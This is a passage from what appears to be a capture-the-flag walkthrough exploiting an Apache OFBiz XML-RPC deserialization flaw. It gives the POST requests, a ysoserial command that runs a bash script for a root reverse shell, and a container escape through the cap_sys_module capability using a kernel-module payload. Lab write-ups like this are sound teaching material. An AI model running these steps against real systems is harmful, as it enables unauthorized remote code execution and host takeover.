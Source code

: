 Sending the request from the Proof-of-Concept with the payload to download the file to the box:
```
POST /webtools/control/xmlrpc HTTP/1.1
Host: localhost:8443
Content-Type: application/xml
Content-Length: 4163

(...)
<serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">rO0ABXNyABdqYXZhLnV0aW(...)
</serializable>
(...)
```

Generating a payload with **ysoserial** to execute the bash script:
```
java -jar ysoserial.jar CommonsBeanutils1 "bash /tmp/shell.sh" | base64 | tr -d "\n"
```

Sending another request with the payload to execute the bash script:
```
POST /webtools/control/xmlrpc HTTP/1.1
Host: localhost:8443
Content-Type: application/xml
Content-Length: 4135

<serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">rO0ABXNyABdqYXZhLnV0aWwu(...)
</serializable>
(...)
```

After sending the request, the shell script will be executed and the listener on my IP and port 9002 starts a reverse shell as the user _root_.
Based on the hostname, the IP and the _.dockerenv_ file in the root directory, this is a Docker container and not the target box.

## Lateral Movement

The **Process Capabilities** show that the _cap_sys_module_ is enabled, which can be [used to escape containers](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#capabilities-abuse-escape):
```
capsh --print
```
```
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
```

With this capability it is possible to load kernel modules and the [payload in this article](https://greencashew.dev/posts/how-to-add-reverseshell-to-host-from-the-privileged-container/) can be used to build such a module.
